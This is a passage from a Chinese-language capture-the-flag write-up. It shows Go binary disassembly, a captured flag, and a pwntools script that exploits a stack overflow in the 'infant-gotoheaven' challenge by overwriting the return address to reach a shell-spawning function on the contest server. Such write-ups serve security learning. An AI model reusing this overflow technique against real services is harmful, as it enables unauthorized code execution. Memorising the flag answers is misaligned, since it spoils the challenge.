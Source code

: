 ```python
.text:00000000004629C6                 call    runtime_exitsyscall
.text:00000000004629CB                 retn
.text:00000000004629CC ; ---------------------------------------------------------------------------
.text:00000000004629CC
.text:00000000004629CC loc_4629CC:                             ; CODE XREF: syscall_Syscall+2A↑j
.text:00000000004629CC                 mov     [rsp+arg_20], rax
.text:00000000004629D1                 mov     [rsp+arg_28], rdx
.text:00000000004629D6                 mov     [rsp+arg_30], 0
.text:00000000004629DF                 call    runtime_exitsyscall
.text:00000000004629E4                 retn
.text:00000000004629E4 syscall_Syscall endp
'''
```

flag:`BAMBOOFOX{G0LaNg_iS_aw3s0m3ls!}`

### infant-gotoheaven 255

做完这题我开始怀疑我上一题是不是做复杂了(反思

这题和上一题同样是go,但是简单好多啊

还是有一个暴力的栈溢出,然后给了一个叫`main_weird`的函数,正常不可达到,进去就给你一个shell.

所以修改ret地址到这里即可.

```python
#coding=utf8
from pwn import *
context.log_level = 'debug'
context.terminal = ['gnome-terminal','-x','bash','-c']

local = 0

if local:
	cn = process('./infant-gotoheaven')
	bin = ELF('./infant-gotoheaven')
else:
	cn = remote('bamboofox.cs.nctu.edu.tw' ,58796)


def z(a=''):
	gdb.attach(cn,a)
	if a == '':
		raw_input()


cn.recv()

pay = 'a'*0xe0 + p64(0x00000000004A263F)

cn.sendline(pay)

cn.interactive()
```
